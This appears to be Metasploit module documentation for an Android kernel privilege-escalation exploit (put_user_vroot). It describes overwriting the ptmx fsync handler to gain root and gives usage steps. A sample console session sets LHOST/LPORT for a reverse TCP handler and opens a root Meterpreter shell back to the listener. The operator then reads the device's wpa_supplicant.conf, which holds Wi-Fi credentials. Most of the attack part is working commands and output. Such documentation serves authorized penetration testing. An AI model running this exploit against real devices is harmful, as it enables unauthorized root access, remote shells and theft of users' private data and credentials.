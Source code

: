 ## Introduction

This modules exploits a vulnerability in the linux kernel on an Android device, which allows an untrusted app to elevate to root priviledges. On Android an application normally runs as an individual linux user, sandboxing it from the Android system and other applications. After running the exploit the resulting session has full priviledge on the device, and can access the entire filesystem and the private data files of every other app, including system apps.

The exploit uses a read kernel memory primitive to first figure out the correct offsets for the device, before using the write primitive to overwrite the ptmx.fsync handler to a function that will elevate the current process to root. Finally /dev/ptmx is opened, and fsync called to trigger the exploit.

This exploit should work on any vulnerable device and is not device specific. In the example below a Samsung Galaxy S4 running Android version 4.3 was targetted.

## Usage

You'll first need to obtain a session on the target device. Once the module is loaded, one simply needs to set the ```SESSION``` option and configure the handler. The exploit can take a while to run on the device so it is configured with ```WfsDelay``` option to wait 120 seconds for a session. If you have not had a session after this time you can assume the device is not vulnerable.

An example session follows:


```
msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                        Information          Connection
  --  ----                        -----------          ----------
  1   meterpreter dalvik/android  u0_a132 @ localhost  192.168.1.52:4444 -> 192.168.1.54:33549 (192.168.1.54)


msf exploit(handler) > use exploit/android/local/put_user_vroot

msf exploit(put_user_vroot) > set LHOST 192.168.1.52
LHOST => 192.168.1.52

msf exploit(put_user_vroot) > set LPORT 5555
LPORT => 5555

msf exploit(put_user_vroot) > set SESSION 1
SESSION => 1

msf exploit(put_user_vroot) > run

[*] Started reverse TCP handler on 192.168.1.52:5555 
[*] Loading exploit library /data/data/com.metasploit.stage/files/bwycy
[*] Loaded library /data/data/com.metasploit.stage/files/bwycy, deleting
[*] Waiting 120 seconds for payload
[*] Sending stage (388156 bytes) to 192.168.1.54
[*] Meterpreter session 2 opened (192.168.1.52:5555 -> 192.168.1.54:59580) at 2016-12-24 00:19:12 +0800


meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0

meterpreter > cat /data/misc/wifi/wpa_supplicant.conf
ctrl_interface=wlan0
...

```
